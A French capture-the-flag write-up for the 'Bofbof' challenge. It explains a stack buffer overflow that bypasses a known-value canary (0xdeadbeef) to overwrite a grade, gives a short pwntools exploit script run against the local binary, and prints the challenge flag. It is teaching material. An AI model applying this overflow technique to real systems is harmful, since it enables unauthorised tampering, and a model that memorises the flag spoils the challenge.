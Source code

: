 # Bofbof

## Difficulté : moyen

### Description :

Nous avons réussi à obtenir un accès au serveur des notes de MDI104 ! Mais il semble que les notes soient légèrement truquées...
Je suis sur que vous trouverez le moyen de valider.

### Analyse

Nous avons ici affaire à une faille classique: le Buffer Overflow. L'utilisateur peut entrer une chaîne de caractères aussi longue qu'il le souhaite dans code, ce qui aura pour effet d'écraser les variables suivantes.

Ici, une "protection" a été mise en place. Une variable est située entre la note et le code pour vérifier que celle-ci n'a pas été écrasée. Cependant, sa valeur est connue, et il suffit de l'écraser en lui donnant la même valeur.

Ainsi, il nous faut remplir le code, écrire les octets 0xdeadbeef, en prenant garde au little endian, qui met à la fin les octets de poids faible (0xdeadbeef => \xef\xbe\xad\xde) puis écrire notre valeur, c'est-à-dire 20.

### Exploitation

On peut utiliser la librairie pwntools de python pour mener à bien l'exploitation:

```python
from pwn import *

sh = process('./bofbof')
sh.recvline()

protector = p32(0xdeadbeef)
padding = protector * 7

value = p32(20)
sh.sendline(padding + value)
print(sh.recvline())
sh.interactive()
```

### Solution

CTF101{720be840c09652ef7121bef03c2bfebe}